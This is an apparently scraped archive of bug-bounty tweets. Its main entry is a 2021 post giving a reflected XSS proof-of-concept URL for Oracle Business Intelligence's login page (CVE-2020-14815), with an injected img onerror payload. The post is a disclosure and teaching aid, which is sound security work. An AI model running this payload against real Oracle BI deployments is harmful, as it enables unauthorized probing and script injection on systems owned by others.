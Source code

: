 <table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1359118509310050305 _at 2021-02-09 12:34:38_**
<blockquote>
Found XSS Oracle Business Intelligence(CVE-2020-14815)
Thanks for @HackerOn2Wheels 

POC:
/bi-security-login/login.jsp?msi=false&amp;redirect="&gt;&lt;img/src/onerror%3dalert('xss')&gt;

Ref:
https://t.co/ohcvAHKxFg

#bugbounty #bugbountytips  #xss https://t.co/bzNQ6z7lwt
</blockquote>

* https://twitter.com/HackerOn2Wheels/status/1326927875279380480

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EtyO88pVgAoVXdT.jpg" alt="http://pbs.twimg.com/media/EtyO88pVgAoVXdT.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---